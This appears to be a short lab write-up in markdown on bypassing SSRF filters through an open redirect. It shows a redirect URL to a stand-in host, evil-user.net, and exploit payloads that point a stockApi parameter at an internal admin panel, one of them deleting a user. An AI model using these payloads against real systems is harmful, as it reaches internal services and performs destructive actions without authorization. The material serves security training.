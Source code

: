 

### Bypassing SSRF filters via open redirection

Now instead of fetching the URL directly we may also utilize the redirect option if one if available

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`



![[ssrf_open-redirect.png]]

We can clearly see that there's a endpoint `/protuct/nextproduct` with a parameter `?path=` to redirect the site. Now let's consider whether it is vulnerable for open redirect or not

![[ssrf_open-redirect_2.png]]

This clearly proves that it has a open redirect vuln 

**exploit payload:**

`stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin`


```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

![[ssrf_open-redirect_3.png]]
